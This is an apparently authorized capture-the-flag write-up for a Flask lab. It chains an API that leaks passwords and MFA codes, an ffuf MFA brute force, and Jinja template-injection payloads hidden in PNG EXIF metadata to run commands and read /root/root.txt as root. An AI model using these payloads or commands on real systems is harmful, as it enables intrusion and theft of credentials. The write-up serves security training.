








Authorized lab write-up. Lab author: Tyler Ramsbey. Solved 2026-08-07. Proxy: gori.
| Challenge | Verbose |
| Platform | HackSmarter (DEFCON free access) |
| Stack | Flask / Werkzeug 3.1.5 · Python 3.12.3 |
| Target (lab) | 10.1.13.210 · ports 22, 80 |
| Chain | Verbose API → admin + MFA → EXIF Jinja SSTI as root |
| Proxy | gori project verbose |
exiftool
The app is literally verbose: /api/users/all returns every account’s
password and (after login) the live MFA code. That skips guessing. Admin branding preview
renders PNG Artist EXIF through Jinja while the process runs as root.
nmap -sV -sC -p- --min-rate 1000 -T4 10.1.13.210
# 22/tcp OpenSSH · 80/tcp Werkzeug/Python FlaskWait 2–3 minutes after launch (lab note). Public /login + /register.


curl http://10.1.13.210/api/users/all | jq .
GET /api/users/all dumps passwords (and MFA when set).Snippet (sanitized structure)
[
{"username":"tony","password":"basketball","role":"user", ...},
{"username":"admin","password":"YouWontGetThisPasswordYouNoobLOL123",
"role":"admin","mfa":"8655"}
]Raw export: requests/users_all.json ·
gori: flow #1
# password from API
POST /login username=admin&password=YouWontGetThisPasswordYouNoobLOL123
→ 302 /mfa
# path A (fast): re-GET /api/users/all → admin.mfa
POST /mfa code=<mfa>
# path B (Tyler’s second way): seq -w 0 9999 | ffuf ... -fc 200 -t 3
# no rate limit / codes not invalidated on fail

gori history
#5 GET /admin/dashboard → 200
#4 POST /mfa → 302
#3 GET /api/users/all → 200 (MFA leaked here)
#2 POST /login → 302
#1 GET /api/users/all → 200
verbose capture + flow dumps.
Upload PNG logo → Preview shows metadata. Artist is template-rendered:
exiftool -Artist='{{7*7}}' logo.png
# preview → 49
exiftool -Artist="{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}" logo.png
# → uid=0(root) gid=0(root)
exiftool -Artist="{{request.application.__globals__.__builtins__.__import__('os').popen('cat /root/root.txt').read()}}" logo.png
curl -b 'session=…' -F file=@logo.png http://10.1.13.210/admin/upload_logo
curl -b 'session=…' 'http://10.1.13.210/admin/logo_preview?file=logo.png'
mfa from the API./api/users/*; rate-limit MFA + single-use codes./api/users/all from unauthenticated clients; mass /mfa POSTs.